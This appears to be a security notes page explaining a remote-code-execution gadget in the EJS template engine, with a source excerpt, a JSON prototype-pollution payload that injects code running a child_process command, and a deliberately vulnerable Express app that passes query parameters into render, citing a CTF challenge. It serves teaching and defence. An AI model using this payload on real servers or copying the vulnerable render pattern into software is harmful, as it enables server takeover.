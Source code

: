 ```js
function Template(text, opts) {
    // ...
    options.client = opts.client || false;
    options.escapeFunction = opts.escape || opts.escapeFunction || utils.escapeXML;

    this.opts = options;
    // ...
  }

Template.prototype = {
    // ...
    compile: function () {
        var opts = this.opts;
        var escapeFn = opts.escapeFunction;

        if (opts.client) {
            src = 'escapeFn = escapeFn || ' + escapeFn.toString() + ';' + '\n' + src;
        }
        // ...
        // src is evaluated later
    }
}
```

{{< details "EJS RCE - Proof of Concept" >}}
There are two options for controlling these variables.

1. Abuse server-side prototype pollution (SSPP)
2. Custom parameters to the render function of EJS

#### 1. SSPP

> Full article on [mizu.re](https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce).

**TL;DR:**

```json
{
    "__proto__": {
        "client": 1,
        "escape": "1;return process.mainModule.require('child_process').execSync('id');"
    }
}
```

#### 2. Custom parameters of render

> Inspired from the challenge *Peculiar Caterpillar* of the [FCSC2023](https://france-cybersecurity-challenge.fr).

`req.query` will be equal to the `options` parameter passed to the `render` function of `Express`.

```js
require("express")()
.set("view engine", "ejs")
.use((req, res) => {
    res.render("index", { ...req.query })
})
.listen(3000);
```
